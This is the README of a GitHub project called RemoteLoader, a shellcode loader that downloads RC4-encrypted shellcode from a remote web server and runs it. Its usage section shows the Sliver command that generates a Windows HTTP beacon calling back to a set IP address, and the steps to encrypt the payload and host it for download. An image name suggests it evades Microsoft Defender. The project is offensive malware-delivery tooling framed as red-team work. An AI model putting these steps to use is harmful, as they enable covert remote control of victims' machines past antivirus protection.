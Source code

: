# RemoteLoader

Just another shellcode loader from remotely using rc4 encryption.

## Usage

Generate a sliver's beacon
```
generate beacon --seconds 10 --jitter 3 --os windows --arch amd64 --format shellcode --http 192.168.70.128 --name redteam --save /tmp/shellcode.bin -G --skip-symbols
```
Encrypt it with `rc4.py` script
```
python3 rc4.py yourkey shellcode.bin
```
We will get `shellcode.bin.enc` file, run python web server and modify your `ip address`, `port` and `key` in RemoteLoader.cpp.

<img src=Defender.png>
